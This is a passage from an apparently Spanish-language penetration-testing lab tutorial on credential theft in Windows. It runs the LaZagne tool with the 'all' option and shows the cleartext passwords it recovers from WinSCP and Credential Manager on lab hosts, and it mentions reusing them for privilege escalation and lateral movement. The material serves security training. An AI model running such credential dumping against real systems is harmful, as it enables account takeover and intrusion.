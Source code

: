 ```powershell-session
  -version              laZagne version
```

#### Ejecutando todos los módulos de Lazagne

Como podemos ver, hay muchos módulos disponibles para nosotros. Ejecutando la herramienta con`all`Buscará aplicaciones compatibles y devolverá las credenciales de ClearText descubiertas. Como podemos ver en el ejemplo a continuación, muchas aplicaciones no almacenan credenciales de forma segura (¡es mejor que no almacene credenciales, período!). Se pueden recuperar fácilmente y usarse para aumentar los privilegios localmente, pasar a otro sistema o acceder a datos confidenciales.

  Robo de credenciales más

```powershell-session
PS C:\htb> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

########## User: jordan ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

------------------- Credman passwords -----------------

[+] Password found !!!
URL: dev01.dev.inlanefreight.local
Login: jordan_adm
Password: ! Q A Z z a q 1

[+] 2 passwords have been found.

For more information launch it again with the -v option

elapsed time = 5.50499987602
```

---

## Aún más divertido con las credenciales
